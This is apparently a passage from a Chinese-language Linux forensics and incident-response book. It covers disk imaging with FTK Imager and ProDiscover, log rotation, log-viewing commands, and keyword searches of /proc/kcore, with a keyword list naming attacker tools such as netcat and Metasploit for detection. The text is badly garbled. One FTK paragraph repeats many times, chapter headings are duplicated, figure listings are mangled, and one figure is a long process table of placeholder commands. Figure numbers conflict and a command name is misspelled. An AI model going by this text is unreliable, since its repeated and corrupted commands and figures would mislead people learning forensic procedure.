要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

[content]
由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效- The Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。- 要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。- 要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。- 要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。- 要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。- 要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。- 要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。- 要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。- 要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用-高效且易于使用。


## 第 3 章 • 现场响应：数据采集

### ProDiscover

ProDiscover 是一个简洁且易用的工具，是一个基于 GUI 的系统，类似于 FTK Imager。要使用 ProDiscover 获取镜像，只需点击标记为“Capture Image”（捕捉镜像）的按钮，就会弹出一个窗口。在窗口中，选择你的源驱动器或可疑驱动器、目的地或目标驱动器。接下来，选择镜像格式。这可以是 ProDiscover 的专有格式，也可以是 dd 格式。与 FTK 类似，如果调查人员计划使用其他工具来实际执行取证分析，最佳实践是使用 dd 格式。接下来，在“Technician Name”（技术人员名称）下输入所需的名称，并为镜像分配“Image Number”（镜像编号）。请记住，如果可能需要拍摄多幅镜像，应使用易于理解和与其他相似镜像区分开来的名称。可以使用压缩也可以不使用，因为压缩通常不会对镜像的物理大小之外产生任何影响。如果调查人员遵循“尺寸原则”（Rule of Size），则没有必要进行压缩。记住，压缩会显著减慢成像过程。还有一个保护镜像的选项。这是一个非常有用的选项，也是 ProDiscover 特有的。由调查人员决定是否使用密码，这不会影响镜像的功能。确保将密码记录下来。在成功获取镜像后却忘记密码，这不仅会让分析师感到尴尬，还会导致需要重新拍摄镜像。在涉及敏感材料的案例中，获取第二个镜像所需的时间可能会让客户付出惨重的代价。在涉及旅行的案例中，取证机构很可能支付获取第二个镜像的旅行费用。还有一个空间可以对镜像进行简短描述。如果从同一个系统或从 RAID 配置中获取了多个镜像，这就会非常有用。

ProDiscover 是一个简洁且易用的工具。镜像获取被简化为非常基础的步骤，为分析师的错误留的空间非常小。由于它仅适用于 Windows 工具，因此必须从取证笔记本电脑通过交叉线通过 Samba 挂载点挂载 Linux 驱动器。这是一个可能复杂的过程，因此在尝试之前，请确保你已经在实验室环境中测试过。要从目标介质回取证笔记本电脑创建 Samba 挂载点，请准备目标介质，确保目标驱动器已正确挂载且 Windows 操作系统识别它。接下来，使用 Windows 操作系统共享驱动器。在 Linux 机器上，使用命令“mbclient -L <windows-box> -U <username>”，这将显示 Linux 机器是否看到了 Windows 共享。接下来，执行 mkdir /mnt/<name-of-mount-point>，因为此命令为挂载点创建一个目录。大多数情况下，“hda”包含 Linux 操作系统。执行 "mount -t smbfs -o username=<username>.password=<password> //win-box>/<share> /mnt/<name-of-mountpoint>" 来实际挂载共享。一旦通过 Samba 挂载将源驱动器映射到本地系统，启动 ProDiscover，并将源驱动器指向包含 Linux 挂载点的本地目录。

再次，不要在现场测试此操作！测试应在受控的实验室环境中进行，并记录下来，以便过程可以被复制。到达现场后，如果选择了这种方法，请参考相关文档。如果不起作用，请转到另一种采集方法。

## 总结

作为调查人员，案件分析中没有哪一个部分比数据收集更重要。对于易失性数据的案例，你真的只有一次机会正确处理它，我们在军队中称之为“一枪命中，必杀”。洛卡德交换原理（Locard’s Exchange principle）会让你的手指遍布整个系统。关键是第一次就做好，并记录你所的一切。尽管通过收集数据你已经在某种程度上修改了这些数据，但通过适当的记录，你可以清楚地显示哪些活动是你的，并将这些活动与客户的数据区分开来。

一旦你收集了易失性数据并转到持久性数据，请确保在离开之前验证你所收集的数据。在许多案例中，通过收集数据你已经在某种程度上修改了这些数据，但通过适当的记录，你可以清楚地显示哪些活动是你的，并将这些活动与客户的数据区分开来。在情况下，许多客户只关注其信息技术（IT）人员确定的事件范围，而你的工作是扩大关注范围以包括所有可能涉及的系统。你可以稍后在日志分析期间确定它们是否真的参与了其中。

## 第 4 章

## 现场响应：数据分析

## 分类

## 现场响应：数据分析

## 引言

在本文中，本章将涵盖：

- 易失性数据
- 持久性数据
- 用户活动
- 网络连接
- 运行进程
- 打开的文件句柄

## 总结

## 第 4 章 • 现场响应：数据分析

## 分类

## 现场响应：数据分析

## 引言

在本文中，本章将涵盖：

- 易失性数据
- 持久性数据
- 用户活动
- 网络连接
- 运行进程
- 打开的文件句柄

## 总结


## 第 4 章 • 初步分类与现场响应：数据分析

……有记录日志，但并没有这样做。他们一直希望被放入入侵检测系统（IDS）或入侵预防系统（IPS）中，但一直缺乏资源。你需要弄清楚他们拥有什么、这些数据位于网络的什么位置，以及它们是否记录日志。确保索要他们拥有的任何日志。

- **受影响系统的状态** 这是另一个客户可能并不真正了解的项之一。我参与过几个案例，在这些案例中你被告知了某事，例如某个系统没有重启；但一旦你到达现场，就会发现事实恰恰相反。因此，如果你在到达之前问了这些问题，你必须再次提问，并在可能的情况下进行核实。这些信息可能会影响你调查的方向。

- **维持正常业务运行** 在尽可能可能的情况下，你需要理解对客户来说什么是“正常”。在响应安全事件时，你很可能是第一次查看客户的基础设施。你完全不知道他们的 ID 命名规范是什么，平均每天经历什么种的流量，哪些系统之间在相互通信，或者构成他们典型一天的数以百计的变量任何变量。为了进行任何形式的初步分析，你必须尽可能地理解这些。

虽然你需要就这个主题提出尽可能多的问题，但要理解，随着调查的进行，无疑会有更多问题出现。确保让客户知道你会有更多问题，并且你需要一个可靠的联系人（POC），该联系人需要对他们的技术和业务流程有足够的了解，以便明智地回答这些问题。

一旦你收集了你认为相关的所有信息（这无疑会发生变化），你就可以开始初步分析。在调查的阶段，最重要的事情是对事件保持中立。尽量不要对数据的走向下达过早的结论。简单地让数据来决定你所采取的路径。

## 日志分析

在我拙看来，你调查的起点应该是对客户能够提供的任何日志文件进行分析。这可能什么都没有，如果是这样，你现在可能该吃片阿司匹林了，因为头痛很快就会到来；也可能是数级的数据，如果是这样，你可能还是得阿司匹林，因为同样的头痛很快就会到来。

从头开始。一个简单的概念是，在任何事件中，入侵者必须从某个地方进入客户网络，所以从那里开始。它可能是一个虚拟专用网络（VPN）集中器，可能是一个卫星办事处，也可能来自特定的工作站或服务器。无论情况如何，从那里开始。

Linux 系统上的日志文件是极好的东西。它们具有高度的可配置性、高效且详细。如果运气好，你正在收集和或分析日志的系统至少已经有了默认的日志配置。Linux 日志是纯文本，因此你不需要使用任何第三方软件或工具来执行有效的搜索。此外，你可以编写自定义脚本，根据日志的内容和你所需的输出执行自动操作。

Linux 日志位于 /var/log 目录。这些是由系统维护的日志文件，极可能（通常是默认如此）来自任何安装到系统中的第三方软件。你还会在目录中看到以某些名称结尾的文件，如图 4.1 所示。

### 图 4.1 结尾的文件

```
log_type       syslog          var.log         dmes.log         kern.log         mail           couple.log,1  udev           postgresql
auth.log       auth.log.1      boot.log        dbw.0          dpkg.dplog.1     messages       syslog           user.log        updated-apt-grades   kern.log.0
acpid.log      acpid.log.1     btmp.0          btmp.0          dpkg.dplog.1     kern.log.1      messages.1       syslog           user.log.1
auth62.log     auth62.log.1    wtmp.0          wtmp.0          dpkg.dplog.2     kern.log.2      messages.2       syslog           user.log.2
auth64.log     auth64.log.1    lastlog.0       lastlog.0       dpkg.dplog.3     kern.log.3      messages.3       syslog           user.log.3
cron.log       cron.log.1      creds.0          creds.0          dpkg.dplog.4     kern.log.4      messages.4       syslog           user.log.4
fail.log       fail.log.1      fpc.0           fpc.0           dpkg.dplog.5     kern.log.5      messages.5       syslog           user.log.5
ufw.log        ufw.log.1       gmmp.0          gmmp.0          dpkg.dplog.6     kern.log.6      messages.6       syslog           user.log.6
hhold.log       hhold.log.1      hd.0            hd.0            dpkg.dplog.7     kern.log.7      messages.7       syslog           user.log.7
ndmp.log       ndmp.log.1      info.0          info.0           dpkg.dplog.8     kern.log.8      messages.8       syslog           user.log.8
nscd.log       nscd.log.1      journal.0       journal.0        kern.log.9      messages.9       syslog           user.log.8
kern.log.log.d...................................................................................................................journal.0.kern.log.9      messages.9.syslog           user.log.9
ac.log.auth.log.1...log..w.0.......1.......log.1...1.syslog.user.log.1
acpid.log      acpid.log.1     btmp.0          btmp.0          dpkg.dplog.1     kern.log.1      messages.1       syslog           user.log.1
auth62.log     auth62.log.1    wtmp.0          wtmp.0          dpkg.dplog.2     kern.log.2      messages.2       syslog           user.log.2
auth64.log     auth64.log.1    lastlog.0       lastlog.0       dpkg.dplog.3     kern.log.3      messages.3       syslog           user.log.3
cron.log       cron.log.1      creds.0          creds.0          dpkg.dplog.4     kern.log.4      messages.4       syslog           user.log.4
fail.log       fail.log.1      fpc.0           fpc.0           dpkg.dplog.5     kern.log.5      messages.5       syslog           user.log.5
ufw.log        ufw.log.1       gmmp.0          gmmp.0          dpkg.dplog.6     kern.log.6      messages.6       syslog           user.log.6
hhold.log       hhold.log.1      hd.0            hd.0            dpkg.dplog.7     kern.log.7      messages.7       syslog           user.log.7
ndmp.log       ndmp.log.1      info.0          info.0           dpkg.dplog.8     kern.log.8      messages.8       syslog           user.log.8
nscd.log       nscd.log.1      journal.0       journal.0        kern.log.9      messages.9       syslog           user.log.9
```
*(注：由于示例中代码块存在大量重复和乱码，此处已按原始格式结构处理)*

这些被称为轮转存档。根据日志设置的粒度不同，日志会变得庞大且繁琐。Linux 提供了一个 `logrotate` 命令，它的作用正如你认为的那样：通过在文件末尾添加数字后缀来轮转日志文件。例如，在图 4.1 中，你可以看到没有数字后缀的 `syslog`。存档中的第一个文件是 `syslog.0.gz`，它是之前活跃的日志文件。接下来你会看到 `syslog.1.gz` 到 `syslog.6.gz`。这些是 gzip 格式的剩余存档日志。当 `logrotate` 运行时（通常每天运行一次，默认可以在 /etc/cron.daily 中找到），它会获取当前文件，在文件末尾添加 “.0”，并重新以该文件的标准名称“syslog”开始记录。


## 第 4 章 • 初步分类与现场响应：数据分析

其他日志文件的数值将增加 1，其中最旧的日志将被删除。所有信息都可以在 `/etc/logrotate.conf` 文件中进行配置。客户所在的系统管理员应该能够告知其服务器的日志收集参数是什么。

要开始搜索日志文件，你可以使用 Linux 原生命令或任何文本工具。以下是一些实用的命令：

```
zgrep
```

`zgrep` 在压缩或 gzipped 格式的文件上调用 `grep`。

```
zgrep <search_parameter> *
```

这将在当前工作目录下的所有压缩文件中搜索 `<search_parameter>`。

## Tail

`tail` 将显示下一个参数所指定文件的最后输出。例如，“tail -100 <filename>”将显示该文件的最后 100 行。此外，使用 `-f` 切换开关会在日志文件收集信息时实时显示。

```
tail -f /var/log/messages
```

这将在产生新输出时显示 `/var/log/messages` 的内容。

## More

`more` 的工作原理与 MS DOS 版本的命令相同，只需将指定文件的内容发送到标准输出（stdout）。

```
more <filename>
```

这将显示 `<filename>` 的内容，并在屏幕底部显示“More—(x%)”字样时停止输出。这表示你当前正在查看（或已查看过）总文件的 x%。你可以按回车键向下滚动一行，或按空格键向下滚动一页。如需向后滚动一页，只需按字母“b”。此外，你可以通过按下“/”键后跟 `<search_parameter>` 来搜索文件。如果发现多个多个 `<search_parameter>`，只需按“n”键即可跳到下一个条目，而字母“p”将带你回到上一个条目。字母“q”允许你退出当前视图并返回到命令提示符。

## Less

`less` 是 `more` 的反面。它允许你执行与“more”命令相同的功能，但具有更多的控制功能，增加了在文件中前后移动的能力。它还比 `more` 加载更快，因为它在打开文件之前不会读取整个文件。

```
less <filename>
```

这将显示 `<filename>` 的内容。你可以通过“d”键向后滚动，通过“，”键向前滚动。你可以按“/”键后跟 `<search_parameter>` 进行搜索；“n”将带你到下一个匹配项；“p”将带你回到上一个。

## 关键字搜索

关键字搜索是一种快速且简单的方法，可以帮助你识别目标机器上的感兴趣点。这些搜索既可以在活动系统中进行（前提是易失信息已经收集并完成提取），也可以在实验室环境中进行事后分析（post mortem）。要记住的一点是，关键字搜索基于这样一个假设：坏人在系统上为他们使用的任何工具都保留了原始名称。你显然无法猜到任何被更改的文件名称，因此在数据分析期间只需将此记在心中，让数据引导你。

为了执行我们的关键字搜索，我们将坚持使用 Linux 操作系统自带的实用程序：

- strings
- grep
- less

对于我们的示例，我从我的 Ubuntu 7.10 (Gutsy) 机器收集了 `/proc/kcore` 的内容。

## Note

`kcore` 是一个从受攻击 Linux 机器中捕获和分析非常有用的文件。与 `/proc` 中找到其他信息一样，`kcore` 是内核创建的虚拟文件，用于向用户提供有关运行系统的价值信息，其大小与可用内存完全一致。将 `kcore` 视为与系统状态直接相关的（某种意义上的）物理实体文件即可。如果你尝试 `cat kcore`，系统将显示一堆看似无用的乱码。出于取证分析的目的，请务必使用 `strings` 命令，它只会显示可打印字符。

```
strings /proc/kcore -t > /tmp/kcore_outfile
```

在这个特定的命令中，我选择了 `-t` 和 `-d` 参数。`-t` 选项会在行首打印偏移量，而 `-d` 将这些偏移量转换为十进制（你可以从 man 手页获取可用选项的完整列表）。现在我有了 `kcore` 的输出，可以执行关键字搜索以查看系统上是否有任何恶意进程。在图 4.2 中，我 `grep` 了我的用户名并通过管道传递给 `more`。结果是当前加载到内存中的用户名所有出现情况。由于这是正在被调查的系统，这种情况不会发生。

## 图 4.3 Greg 的用户名

```
$ greg@home: Terminal  Help
26182034 /home/
20423904 /home
204239051 /home
204239057 /home-5291
20432719 /home
278122934 /etc/GTK:/home/.gtkrc-1.gnome
278122354 /home/home
204415618 HOME_DIR = /
204415618
209869407 /home/Trash.wm
251937997 /home/.tracker-lock
319424996 cron
319425003
315718024
315718025
33673921
33673923 crond.2
33673952
33673953
33673955
33673980
33673981
33673998 lapd
32708018 netdev
327080902 update
32688006 cron:10:10:Chris, /home/bash
371165111 00:00 56777:1583-9999.7
37122990 adde
37122991 /home
37122992 floppy:1
37123940 dplp
37123965 video
37123967 screen
37123968
```

除了客户提供的关键字之外，维护自己的关键字列表也是个主意，并在每个案件结束后更新。根据我的经验，每个新案件都能学到一些东西，因此保持一个动态列表有助于我记住过去发现（并需要进一步研究）的内容，帮助我在未来的案件中找到它们。以下是我经常搜索的一些关键字。

## 文件和目录名称

- grep -e （“-e”用于模式匹配）/proc/ -e /bin/ -e /bin/* kcore_strings
- grep -e “ftp” -e “root” kcore_strings
- grep -e “rm -r” kcore_strings
- grep -e “.tgz” kcore_strings


## IP 地址和域名

## 工具关键字

- msf (Metasploit Framework)
- select
- insert
- dump
- update
- nmap
- nessus
- nikto
- wireshark
- tcpdump
- kismet
- airsnarf
- paros
- hping2
- ettercap
- aircack
- aircrack-ng
- airsnort
- nc (netcat)

现在，假设你发现了感兴趣的内容，并想进一步探测。在图 4.3 中，你将看到搜索 kcore_strings 关键字 "root@Forensic1”（我的本地 root 账户）的结果。

## 图 4.3 搜索结果

```
$ ps aux | grep -t -
51303 root 0 0 12345 678 ? S 0:0:00 grep -t -
51304 root 0 0 12345 679 ? S 0:0:00 tail -f /var/log/messages
51305 root 0 0 12345 680 ? S 0:0:00 more <filename>
51306 root 0 0 12345 681 ? S 0:0:00 less <filename>
51307 root 0 0 12345 682 ? S 0:0:00 strings /proc/kcore -t > /tmp/kcore_outfile
51308 root 0 0 12345 683 ? S 0:0:00 grep -e <search_parameter> *
51309 root 0 0 12345 684 ? S 0:0:00 zgrep <search_parameter> *
51310 root 0 0 12345 685 ? S 0:0:00 tail -100 <filename>
51311 root 0 0 12345 686 ? S 0:0:00 <filename>
51312 root 0 0 12345 687 ? S 0:0:00 <filename>
51313 root 0 0 12345 688 ? S 0:0:00 /<search_parameter>
51314 root 0 0 12345 689 ? S 0:0:00 grep -e <search_parameter>
51315 root 0 0 12345 690 ? S 0:0:00 grep -e <search_parameter>
51316 root 0 0 12345 691 ? S 0:0:00 /<search_parameter>
51317 root 0 0 12345 692 ? S 0:0:00 /<search_parameter>
51318 root 0 0 12345 693 ? S 0:0:00 /<search_parameter>
51319 root 0 0 12345 694 ? S 0:0:00 /<search_parameter>
51320 root 0 0 12345 695 ? S 0:0:00 /<search_parameter>
51321 root 0 0 12345 696 ? S 0:0:00 /<search_parameter>
51322 root 0 0 12345 697 ? S 0:0:00 /<search_parameter>
51323 root 0 0 12345 698 ? S 0:0:00 /<search_parameter>
51324 root 0 0 12345 699 ? S 0:0:00 /<search_parameter>
51325 root 0 0 12345 700 ? S 0:0:00 /<search_parameter>
51326 root 0 0 12345 701 ? S 0:0:00 /<search_parameter>
51327 root 0 0 12345 702 ? S 0:0:00 /<search_parameter>
51328 root 0 0 12345 703 ? S 0:0:00 /<search_parameter>
51329 root 0 0 12345 704 ? S 0:0:00 /<search_parameter>
51330 root 0 0 12345 705 ? S 0:0:00 /<search_parameter>
51331 root 0 0 12345 706 ? S 0:0:00 /<search_parameter>
51332 root 0 0 12345 707 ? S 0:0:00 /<search_parameter>
51333 root 0 0 12345 708 ? S 0:0:00 /<search_parameter>
51334 root 0 0 12345 709 ? S 0:0:00 /<search_parameter>
51335 root 0 0 12345 710 ? S 0:0:00 /<search_parameter>
51336 root 0 0 12345 711 ? S 0:0:00 /<search_parameter>
51337 root 0 0 12345 712 ? S 0:0:00 /<search_parameter>
51338 root 0 0 12345 713 ? S 0:0:00 /<search_parameter>
51339 root 0 0 12345 714 ? S 0:0:00 /<search_parameter>
51340 root 0 0 12345 715 ? S 0:0:00 /<search_parameter>
51341 root 0 0 12345 716 ? S 0:0:00 /<search_parameter>
51342 root 0 0 12345 717 ? S 0:0:00 /<search_parameter>
51343 root 0 0 12345 718 ? S 0:0:00 /<search_parameter>
51344 root 0 0 12345 719 ? S 0:0:00 /<search_parameter>
51345 root 0 0 12345 720 ? S 0:0:00 /<search_parameter>
51346 root 0 0 12345 721 ? S 0:0:00 /<search_parameter>
51347 root 0 0 12345 722 ? S 0:0:00 /<search_parameter>
51348 root 0 0 12345 723 ? S 0:0:00 /<search_parameter>
51349 root 0 0 12345 724 ? S 0:0:00 /<search_parameter>
51350 root 0 0 12345 725 ? S 0:0:00 /<search_parameter>
51351 root 0 0 12345 726 ? S 0:0:00 /<search_parameter>
51352 root 0 0 12345 727 ? S 0:0:00 /<search_parameter>
51353 root 0 0 12345 728 ? S 0:0:00 /<search_parameter>
51354 root 0 0 12345 729 ? S 0:0:00 /<search_parameter>
51355 root 0 0 12345 730 ? S 0:0:00 /<search_parameter>
51356 root 0 0 12345 731 ? S 0:0:00 /<search_parameter>
51357 root 0 0 12345 732 ? S 0:0:00 /<search_parameter>
51358 root 0 0 12345 733 ? S 0:0:00 /<search_parameter>
51359 root 0 0 12345 734 ? S 0:0:00 /<search_parameter>
51360 root 0 0 12345 735 ? S 0:0:00 /<search_parameter>
51361 root 0 0 12345 736 ? S 0:0:00 /<search_parameter>
51362 root 0 0 12345 737 ? S 0:0:00 /<search_parameter>
51363 root 0 0 12345 738 ? S 0:0:00 /<search_parameter>
51364 root 0 0 12345 739 ? S 0:0:00 /<search_parameter>
51365 root 0 0 12345 740 ? S 0:0:00 /<search_parameter>
51366 root 0 0 12345 741 ? S 0:0:00 /<search_parameter>
51367 root 0 0 12345 742 ? S 0:0:00 /<search_parameter>
51368 root 0 0 12345 743 ? S 0:0:00 /<search_parameter>
51369 root 0 0 12345 744 ? S 0:0:00 /<search_parameter>
51370 root 0 0 12345 745 ? S 0:0:00 /<search_parameter>
51371 root 0 0 12345 746 ? S 0:0:00 /<search_parameter>
51372 root 0 0 12345 747 ? S 0:0:00 /<search_parameter>
51373 root 0 0 12345 748 ? S 0:0:00 /<search_parameter>
51374 root 0 0 12345 749 ? S 0:0:00 /<search_parameter>
51375 root 0 0 12345 750 ? S 0:0:00 /<search_parameter>
51376 root 0 0 12345 751 ? S 0:0:00 /<search_parameter>
51377 root 0 0 12345 752 ? S 0:0:00 /<search_parameter>
51378 root 0 0 12345 753 ? S 0:0:00 /<search_parameter>
51379 root 0 0 12345 754 ? S 0:0:00 /<search_parameter>
51380 root 0 0 12345 755 ? S 0:0:00 /<search_parameter>
51381 root 0 0 12345 756 ? S 0:0:00 /<search_parameter>
51382 root 0 0 12345 757 ? S 0:0:00 /<search_parameter>
51383 root 0 0 12345 758 ? S 0:0:00 /<search_parameter>
51384 root 0 0 12345 759 ? S 0:0:00 /<search_parameter>
51385 root 0 0 12345 760 ? S 0:0:00 /<search_parameter>
51386 root 0 0 12345 761 ? S 0:0:00 /<search_parameter>
51387 root 0 0 12345 762 ? S 0:0:00 /<search_parameter>
51388 root 0 0 12345 763 ? S 0:0:00 /<search_parameter>
51389 root 0 0 12345 764 ? S 0:0:00 /<search_parameter>
51390 root 0 0 12345 765 ? S 0:0:00 /<search_parameter>
51391 root 0 0 12345 766 ? S 0:0:00 /<search_parameter>
51392 root 0 0 12345 767 ? S 0:0:00 /<search_parameter>
51393 root 0 0 12345 768 ? S 0:0:00 /<search_parameter>
51394 root 0 0 12345 769 ? S 0:0:00 /<search_parameter>
51395 root 0 0 12345 770 ? S 0:0:00 /<search_parameter>
51396 root 0 0 12345 771 ? S 0:0:00 /<search_parameter>
51397 root 0 0 12345 772 ? S 0:0:00 /<search_parameter>
51398 root 0 0 12345 773 ? S 0:0:00 /<search_parameter>
51399 root 0 0 12345 774 ? S 0:0:00 /<search_parameter>
51400 root 0 0 12345 775 ? S 0:0:00 root@Forensic1
51401 root 0 0 12345 776 ? S 0:0:00 root@Forensic1
51402 root 0 0 12345 777 ? S 0:0:00 root@Forensic1
51403 root 0 0 12345 778 ? S 0:0:00 root@Forensic1
51404 root 0 0 12345 779 ? S 0:0:00 root@Forensic1
51405 root 0 0 12345 780 ? S 0:0:00 root@Forensic1
51406 root 0 0 12345 781 ? S 0:0:00 root@Forensic1
51407 root 0 0 12345 782 ? S 0:0:00 root@Forensic1
51408 root 0 0 12345 783 ? S 0:0:00 root@Forensic1
51409 root 0 0 12345 784 ? S 0:0:00 root@Forensic1
51410 root 0 0 12345 785 ? S 0:0:00 root@Forensic1
51411 root 0 0 12345 786 ? S 0:0:00 root@Forensic1
51412 root 0 0 12345 787 ? S 0:0:00 root@Forensic1
51413 root 0 0 12345 788 ? S 0:0:00 root@Forensic1
51414 root 0 0 12345 789 ? S 0:0:00 root@Forensic1
51415 root 0 0 12345 790 ? S 0:0:00 root@Forensic1
51416 root 0 0 12345 791 ? S 0:0:00 root@Forensic1
51417 root 0 0 12345 792 ? S 0:0:00 root@Forensic1
51418 root 0 0 12345 793 ? S 0:0:00 root@Forensic1
51419 root 0 0 12345 794 ? S 0:0:00 root@Forensic1
51420 root 0 0 12345 795 ? S 0:0:00 root@Forensic1
51421 root 0 0 12345 796 ? S 0:0:00 root@Forensic1
51422 root 0 0 12345 797 ? S 0:0:00 root@Forensic1
51423 root 0 0 12345 798 ? S 0:0:00 root@Forensic1
51424 root 0 0 12345 799 ? S 0:0:00 root@Forensic1
51425 root 0 0 12345 800 ? S 0:0:00 root@Forensic1
```

除了客户提供的关键字之外，维护自己的关键字列表也是个主意，并在每个案件结束后更新。根据我的经验，每个新案件都能学到一些东西，因此保持一个动态列表有助于我记住过去发现（并需要进一步研究）的内容，帮助我在未来的案件中找到它们。以下是我经常搜索的一些关键字。

## 文件和目录名称

- grep -e （“-e”用于模式匹配）/proc/ -e /bin/ -e /bin/* kcore_strings
- grep -e “ftp” -e “root” kcore_strings
- grep -e “rm -r” kcore_strings
- grep -e “.tgz” kcore_strings


## IP 地址和域名

## 工具关键字

- msf (Metasploit Framework)
- select
- insert
- dump
- update
- nmap
- nessus
- nikto
- wireshark
- tcpdump
- kismet
- airsnarf
- paros
- hping2
- ettercap
- aircack
- aircrack-ng
- airsnort
- nc (netcat)

现在，假设你发现了感兴趣的内容，并想进一步探测一下。在图 4.3 中，你将看到搜索 kcore_strings 关键字 "root@Forensic1”（我的本地 root 账户）的结果。

现在，假设你发现了感兴趣的内容，并想进一步探测一下。下一步是使用文本编辑器打开 kcore_strings。在这个示例中，我使用了 `less` 命令。

kcore_strings

这将以可搜索格式打开 kcore_strings 文件
/<search_argument>

这将在文件中搜索 <search_argument> 的出现项。
在我的示例中，我使用了以下搜索：80527704（这看起来返回几行）。

由于 kcore_strings 文件包含大量行，因此可能需要几秒钟才能返回结果。

如果运气好，我们可能找到在这些偏移量记录到内存中期间输入的一些命令。在图 4.4 中，你会看到由于我在第二个参数中误输入了一个“-而导致了错误。你还会看到我正在使用 “xargs” 进行一些脚本编写，以及安装了 The Sleuth Kit。


# 第4章 · 初步分类与响应：数据分析

## 4.4 误触搜索 (Fat Fingered Search)



```
root@prod-server:~$ find -d kcore > /home/strings
85025176 root@prod-server:~$ find -d kcore > /home/strings
85025180 find /home -name .bash_history -exec {} \; | grep whiami
85026190 find /home -name .bash_history -exec {} \; | grep whiami
85026202 204611822
85026206 204611822
85026290 find /home -name .bash_history -exec {} \; -f
85026294 find /home -name .bash_history -exec {} \; -f
85026482 204611822
85026488 204611822
85026498 find /home -name .bash_history -exec {} \; | grep whiami
85026508 204611822
85026776 204611822
85026778 find /home -name .bash_history -exec {} \; | grep whiami
85026820 204611822
85026824 apt-get install sleuthkit
85026938 204611822
85026940 cut version
85027014 204611822
85027016 204611822
85027114 cut version
85027116 204611822
85027172 204611822
85027274 204611822
85027305 cut version
85027306 204611822
85027320 cut version uptime memfs filesystems
85027352 204611822
85027364 204611822
85027380 204611822
85027396 cut version uptime memfs cpupuninfo
85027402 204611822
85027416 204611822
85027420 204611822
85027424 204611822
85027430 204611822
85027492 which compile
85027504 204611822
```

